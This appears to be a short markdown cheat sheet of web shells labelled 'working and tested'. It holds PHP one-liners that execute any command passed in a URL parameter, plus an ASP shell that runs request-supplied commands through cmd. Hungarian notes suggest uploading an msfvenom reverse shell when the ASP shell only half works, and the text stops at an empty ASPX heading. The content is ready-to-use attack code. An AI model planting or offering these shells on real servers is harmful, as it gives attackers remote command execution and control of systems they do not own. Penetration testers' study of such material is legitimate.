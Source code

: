 # Web Shells (working and tested)
## PHP
<pre>
&lt;?php system($_GET['cmd']); ?&gt;
</pre>
<pre>
&lt;?php system($_GET[1]); ?&gt;
</pre>
## ASP
<pre>
&lt;%
Set rs = CreateObject("WScript.Shell")
'Set cmd = rs.Exec("cmd /c whoami")
Set cmd = rs.Exec("cmd /c " & request("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
%&gt;
</pre>
### ha csak felig mukodik
* probaljunk meg feltolteni egy sima reverse shell-t (msfvenomosat)
* es ne a cmd.exe-vel akarjunk futtatni dolgokat az asp webshell-ben
* hanem csak siman a cmd helyett a reverse shell-t futtassuk!!!
## ASPX
...
